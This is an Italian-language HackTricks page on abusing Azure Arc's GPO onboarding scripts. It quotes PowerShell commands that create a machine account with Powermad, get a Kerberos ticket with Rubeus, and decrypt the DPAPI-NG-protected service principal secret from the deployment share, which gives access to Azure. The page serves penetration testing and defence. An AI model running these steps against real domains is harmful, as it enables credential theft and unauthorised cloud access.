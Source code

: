# Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc consente l'integrazione di nuovi server interni (server di dominio uniti) in Azure Arc utilizzando il metodo Group Policy Object. Per facilitare questo, Microsoft fornisce un toolkit di distribuzione necessario per avviare la procedura di onboarding. All'interno del file ArcEnableServerGroupPolicy.zip, si possono trovare i seguenti script: DeployGPO.ps1, EnableAzureArc.ps1 e AzureArcDeployment.psm1.

Quando viene eseguito, lo script DeployGPO.ps1 esegue le seguenti azioni:

1. Crea il GPO di onboarding dei server Azure Arc all'interno del dominio locale.
2. Copia lo script di onboarding EnableAzureArc.ps1 nella condivisione di rete designata creata per il processo di onboarding, che contiene anche il pacchetto di installazione di Windows.

Quando si esegue questo script, gli amministratori di sistema devono fornire due parametri principali: **ServicePrincipalId** e **ServicePrincipalClientSecret**. Inoltre, richiede altri parametri come il dominio, il FQDN del server che ospita la condivisione e il nome della condivisione. Ulteriori dettagli come l'ID del tenant, il gruppo di risorse e altre informazioni necessarie devono essere forniti anche allo script.

Un segreto crittografato viene generato nella directory AzureArcDeploy sulla condivisione specificata utilizzando la crittografia DPAPI-NG. Il segreto crittografato è memorizzato in un file chiamato encryptedServicePrincipalSecret. Prove di questo possono essere trovate nello script DeployGPO.ps1, dove la crittografia viene eseguita chiamando ProtectBase64 con $descriptor e $ServicePrincipalSecret come input. Il descriptor consiste negli SID dei gruppi Domain Computer e Domain Controller, garantendo che il ServicePrincipalSecret possa essere decrittografato solo dai Domain Controllers e dai gruppi di sicurezza Domain Computers, come indicato nei commenti dello script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Abbiamo le seguenti condizioni:

1. Abbiamo penetrato con successo la rete interna.
2. Abbiamo la capacità di creare o assumere il controllo di un account computer all'interno di Active Directory.
3. Abbiamo scoperto una condivisione di rete contenente la directory AzureArcDeploy.

Ci sono diversi metodi per ottenere un account macchina all'interno di un ambiente AD. Uno dei più comuni è sfruttare il quota degli account macchina. Un altro metodo prevede il compromesso di un account macchina attraverso ACL vulnerabili o varie altre configurazioni errate.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Una volta ottenuto un account macchina, è possibile autenticarsi utilizzando questo account. Possiamo utilizzare il comando runas.exe con il flag netonly oppure utilizzare pass-the-ticket con Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Avendo il TGT per il nostro account computer memorizzato in memoria, possiamo utilizzare il seguente script per decrittografare il segreto del principale del servizio.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, possiamo utilizzare [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

A questo punto, possiamo raccogliere le informazioni rimanenti necessarie per connetterci ad Azure dal file ArcInfo.json, che è memorizzato sulla stessa condivisione di rete del file encryptedServicePrincipalSecret. Questo file contiene dettagli come: TenantId, servicePrincipalClientId, ResourceGroup e altro. Con queste informazioni, possiamo utilizzare Azure CLI per autenticarsi come il service principal compromesso.

## Riferimenti

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
